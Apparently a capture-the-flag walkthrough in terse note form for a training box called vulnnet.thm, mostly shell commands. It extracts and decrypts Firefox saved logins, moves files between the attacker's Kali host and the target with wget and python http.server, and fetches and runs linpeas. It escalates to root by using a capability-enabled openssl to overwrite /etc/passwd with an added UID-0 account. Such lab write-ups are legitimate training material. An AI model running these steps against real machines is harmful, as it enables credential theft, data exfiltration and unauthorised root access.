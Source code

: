 [[Shell]]

==Read from .mozilla==
```bash
cd .mozilla/firefox/2fjnrwth.default-release
cat logins.*
```

> [!WARNING] Run on local system kali
> *Google search for: firefox decrypt logins.json*
> ```bash
git clone https://github.com/unode/firefox_decrypt.git
cd firefox_decrypt
ip a
python3 -m http.server 80

```bash
cd /tmp
wget 10.11.45.32/firefox_decrypt.py
```
*Zip the file .mozilla to debug it on the local system*
```bash
zip moz.zip /home/system/.mozilla -r
mv moz.zip .
python3 -m http.server 8080
```

> [!Warning] Run on local system kali
> Debug python3 script
> ```bash
wget IP:8080/moz.zip
unzip moz.zip
cd /home/system/.mozilla/firefox
pwd (copy path)
python3 firefox_decrypt.py (pwd path)

*Get the credentials*

```bash
ssh system@vulnnet.thm password
sudo -l
```

> [!WARNING] Run on local system kali
> *linpease*
> ```bash
ip a
cd /www
python3 -m http.server 8080

```bash
wget IP:8080/linpeas.sh
./linpease.sh
```
Google search = openssl privilege escalation cap=ep

```bash
getcap -r / 2>/dev/null
```
[[GTFOBins]]
search openssl

LFILE=file_to_write
```bash
echo DATA | openssl enc -out "$LFILE"
```
```bash
echo 'test' | openssl enc -out /tmp/test
cat /tmp/test

cd /tmp
cp /etc/passwd .
```
Generate password with openssl
Google search = openssl "-1" create password
```bash
openssl passwd -1 pass
head -n 1 /etc/passwd
echo 'root2:$1$MdOU2LrC$MJ53Sq1G.IyQFGjLNZvEr.:0:0:root:/root:/bin/bash' >> passwd
cat passwd
which openssl
cat passwd | /home/system/Utils/openssl enc -out /etc/passwd
tail /etc/passwd
su root2
password:pass
whoami
cd /root
ls
```

